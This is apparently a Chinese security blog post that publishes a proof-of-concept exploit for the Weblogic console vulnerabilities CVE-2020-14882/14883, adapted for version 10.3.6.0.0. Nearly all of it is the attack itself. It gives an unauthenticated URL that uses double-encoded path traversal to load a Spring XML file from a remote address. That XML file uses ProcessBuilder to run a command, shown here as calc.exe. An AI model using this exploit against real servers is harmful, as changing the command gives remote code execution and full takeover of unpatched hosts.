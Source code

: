 ```yaml
---
title: CVE-2020-14882/14883 适用于Weblogic 10.3.6.0.0版本的poc
tags: web漏洞分析
categories: 技术
top_img: 'https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/php.jpg'
cover: 'https://gingsguard.oss-cn-beijing.aliyuncs.com/blog/5f5aed5480.jpg'
date: 2020-10-30 17:08:28
---
```


目前网上给出的poc，适用于12版本Weblogic，但并不适用于10.3.6.0.0版本，因此这里给出一个适用于Weblogic 10.3.6.0.0版本的测试 poc



无需登录Weblogic，访问如下链接：

http://localhost:7001/console/css/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://127.0.0.1/poc_xml.xml")



poc_xml.xml内容如下：

```xml
<beans xmlns="http://www.springframework.org/schema/beans"

xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"

xsi:schemaLocation="http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd">

<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">

<constructor-arg value="calc.exe" />

</bean>

</beans>
```

